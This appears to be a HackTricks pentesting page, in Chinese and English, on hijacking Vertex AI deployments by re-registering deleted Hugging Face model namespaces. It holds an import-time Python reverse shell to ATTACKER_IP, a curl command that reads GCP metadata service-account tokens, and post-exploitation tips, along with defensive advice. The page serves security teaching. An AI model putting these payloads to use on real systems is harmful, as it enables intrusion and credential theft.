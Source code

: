 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## 场景

- Vertex AI Model Garden 允许直接部署许多 Hugging Face (HF) 模型。
- HF 模型标识符为 Author/ModelName。如果 HF 上的 author/org 被删除，任何人都可以重新注册相同的 author 名称。攻击者随后可以在旧路径上创建具有相同 ModelName 的仓库。
- Pipelines、SDKs 或仅按名称获取的 cloud catalogs（无 pinning/integrity）将拉取由攻击者控制的仓库。当模型被部署时，该仓库中的 loader code 可以在 Vertex AI endpoint 容器内部执行，从而以 endpoint 的权限获取 RCE。

HF 上两种常见的接管情况：
- Ownership deletion：旧路径返回 404，直到有人重新注册该 author 并发布相同的 ModelName。
- Ownership transfer：HF 会对旧的 Author/ModelName 发出 307 重定向到新所有者。如果旧 author 随后被删除并被攻击者重新注册，重定向链将被打破，攻击者的仓库会在旧路径提供内容。

## 识别可重用的命名空间 (HF)

- 已删除旧 author：author 的页面返回 404；模型路径可能在接管前返回 404。
- 已转移的模型：在旧 author 存在时，旧的模型路径会对新所有者发出 307。如果旧 author 随后被删除并被重新注册，遗留路径将解析到攻击者的仓库。

使用 curl 进行快速检查：
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## End-to-end Attack Flow against Vertex AI

1) Discover reusable model namespaces that Model Garden lists as deployable:
- 查找在 Vertex AI Model Garden 中仍显示为 “verified deployable” 的 HF 模型。
- 在 HF 上确认原始作者是否已被删除，或模型是否被转移且旧作者随后被移除。

2) Re-register the deleted author on HF and recreate the same ModelName.

3) Publish a malicious repo. Include code that executes on model load. Examples that commonly execute during HF model load:
- Side effects in __init__.py of the repo
- Custom modeling_*.py or processing code referenced by config/auto_map
- Code paths that require trust_remote_code=True in Transformers pipelines

4) A Vertex AI deployment of the legacy Author/ModelName now pulls the attacker repo. The loader executes inside the Vertex AI endpoint container.

5) Payload establishes access from the endpoint environment (RCE) with the endpoint’s permissions.

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notes
- 实际环境中的加载器各不相同。许多 Vertex AI HF 集成会克隆并导入模型配置中引用的仓库模块（例如 auto_map），这可能触发代码执行。有些用法需要 trust_remote_code=True。
- 该 endpoint 通常在作用域受限的专用容器中运行，但它仍然是获取数据访问和在 GCP 内横向移动的有效初始立足点。

## Post-Exploitation Tips (Vertex AI Endpoint)

一旦代码在 endpoint 容器内运行，可考虑：
- 列举环境变量和元数据以获取凭证/令牌
- 访问附加存储或挂载的模型制品
- 通过服务账户身份与 Google APIs 交互（Document AI、Storage、Pub/Sub 等）
- 在模型制品中实现持久化，如果平台会重新拉取仓库

如果可访问（取决于容器），列举实例元数据：
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Vertex AI 用户的防御建议

- 在 HF loaders 中按 commit 固定模型以防止静默替换：
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 将经过审查的 HF 模型镜像到受信任的内部 artifact 存储/注册表，并从那里进行部署。
- 持续扫描代码库和配置，查找被硬编码的 Author/ModelName（已删除/已转移）；将其更新为新的命名空间或按 commit 固定。
- 在 Model Garden 中，部署前验证模型来源和作者是否存在。

## Recognition Heuristics (HTTP)

- 已删除的作者：作者页面返回404；遗留模型路径在被接管前返回404。
- 已转移的模型：在旧作者仍存在时，遗留路径以307重定向到新作者；如果旧作者随后被删除并重新注册，遗留路径将提供攻击者的内容。
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 交叉引用

- 参见更广泛的方法论和供应链说明：

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 参考资料

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
